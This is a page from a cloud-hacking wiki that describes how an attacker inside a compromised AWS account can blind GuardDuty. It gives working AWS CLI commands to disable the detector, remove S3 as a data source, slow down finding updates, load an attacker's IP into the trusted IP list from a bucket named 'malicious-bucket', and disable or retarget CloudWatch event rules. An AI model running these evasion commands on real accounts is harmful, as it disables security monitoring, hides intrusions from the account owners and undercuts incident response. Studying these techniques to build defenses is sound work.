 ```yaml
---
author: Ben Leembruggen
title: Modify Security Services
description: Update key AWS logging and detection services to hamper response activities.
enableEditBtn: true
editBaseURL: https://github.com/Hacking-the-Cloud/hackingthe.cloud/blob/main/content
---
```


Where an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert.  Whilst outright deleting services can trigger alerts, modifying key attributes of these services is less likely to raise alerts and can render them close to useless depending on the scenario.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the AWS service architecture and the presence of higher level controls like Service Control Policies. 

## GuardDuty
Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so only able to be modified in the GuardDuty administrator account.  Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove logs sources or lessen its effectiveness.

Configuration changes may include a combination of:
- Disabling the detector altogether.
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
---
### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

<i> DNS findings are exempt from the Trusted IP list </i>

#### Required Permissions to execute:
- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

<i> Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker. </i>


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
### Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event  may reduce GuardDuty's ability to alert and auto-remediate findings, especially where the remediation is triggered in a member account; as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

#### Required Permissions to execute:
- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```